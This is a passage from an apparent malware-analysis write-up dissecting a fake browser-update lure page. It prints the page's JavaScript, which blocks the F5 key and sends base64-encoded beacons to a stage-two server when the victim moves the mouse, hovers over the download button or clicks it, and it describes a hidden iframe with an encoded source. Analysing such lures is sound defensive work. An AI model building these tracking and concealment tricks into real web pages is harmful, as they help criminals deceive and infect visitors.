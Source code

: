 Finally, a function is created and assigned to an eventListener. This function sends yet another base64 encoded value to the stage2 server when the victim clicks on the download button.  
 
Making an educated guess - this tracking is used to help the malware operators learn how intended victims interact with the fake update page, and possibly make improvements in the future. For example, if a large number of distinct users visited the site, moved the mouse around, but never hovered over or clicked the download button, this could indicate the fake page is not believable, and graphical changes may be in order. Users with long intervals between first mouse movement and the download click might indicate security researchers.  

```JS
    function onkeydownFunc(e) {
        try {
            if (e.key == 'F5') {
                e.preventDefault();
                return false;
            }
        } catch (e) {}
    }
    window.addEventListener('keydown', onkeydownFunc, true);
    var btn = document.getElementsByClassName('download-button')[0];
    var mouseMove = false;
    var buttonOver = false;
    var buttonClick = false;
    document.onmousemove = function() {
        if (!mouseMove) {
            mouseMove = true;
            sendStatistics('/d37zfMjENqPAU7hblNtj9dM+Jwh+ddUUGbMUx3Kr3/pNzB41B72ptO1pOjNX5IMXkiBbWSqBGJGf/uHYw9mmw==');
            document.onmousemove = null;
        }
    };
    btn.onmouseover = function() {
        if (!buttonOver) {
            buttonOver = true;
            sendStatistics('zRyoHR7csakMS1IExZAVlxNEubNBn0J788Dz7f4yyALR/FtAvcPzbvEBHvv9RYPg2crn1O+OXvMxQDGlhNRczw==');
            btn.onmouseover = null;
        }
    };

    function btnClickStat(e) {
        if (!buttonClick) {
            buttonClick = true;
            sendStatistics('PcYK9TMYPSAiCsqBzqoiV0UH7NwwZmA+wi1D7dARErVvNT7k8978eKYF54Ux6RAIONHlZZq130tYWLW2Yt6xRg==');
        }
    }
    btn.addEventListener('click', btnClickStat, true);
```

Getting to the good stuff now. An iframe element is created, given the `browser-landing` class, and assigned a src with a base64 encoded string as the value. The style is set to not render any new content on the page by assigning the value "none" to the display property. The iframe element is then appended to the document body.   

